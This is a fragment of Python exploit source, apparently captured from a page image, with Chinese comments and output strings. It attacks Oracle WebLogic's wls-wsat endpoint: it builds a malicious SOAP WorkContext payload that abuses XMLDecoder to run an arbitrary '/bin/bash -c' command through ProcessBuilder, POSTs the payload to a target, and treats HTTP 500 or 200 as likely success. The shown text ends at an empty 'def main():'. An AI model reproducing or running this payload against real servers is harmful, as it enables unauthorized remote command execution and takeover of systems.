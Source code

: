 ```bash
  
    def execute_command(self, command, attack_path=None):
        """执行系统命令"""
        if attack_path is None:
            attack_path = self.wsat_path
  
        # 构造恶意SOAP载荷
        soap_payload = f"""<?xml version="1.0" encoding="UTF-8"?>
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
            <java>
                <object class="java.lang.ProcessBuilder">
                    <array class="java.lang.String" length="3">
                        <void index="0">
                            <string>/bin/bash</string>
                        </void>
                        <void index="1">
                            <string>-c</string>
                        </void>
                        <void index="2">
                            <string>{command}</string>
                        </void>
                    </array>
                    <void method="start"/>
                </object>
            </java>
        </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>"""
  
        attack_url = f"{self.target_url}{attack_path}"
  
        try:
            print(f"[*] 攻击目标: {attack_url}")
            print(f"[*] 执行命令: {command}")
  
            response = self.session.post(
                attack_url,
                data=soap_payload,
                headers=self.headers,
                timeout=15
            )
  
            print(f"[+] HTTP状态码: {response.status_code}")
            print(f"[+] 响应长度: {len(response.text)} 字节")
  
            if response.status_code == 500:
                print("[+] 攻击可能成功 (HTTP 500通常表示反序列化触发)")
                return True
            elif response.status_code == 200:
                print("[+] 请求被处理 (需要进一步验证)")
                return True
            else:
                print(f"[-] 攻击失败，状态码: {response.status_code}")
                return False
  
        except Exception as e:
            print(f"[-] 攻击执行失败: {e}")
            return False

def main():
```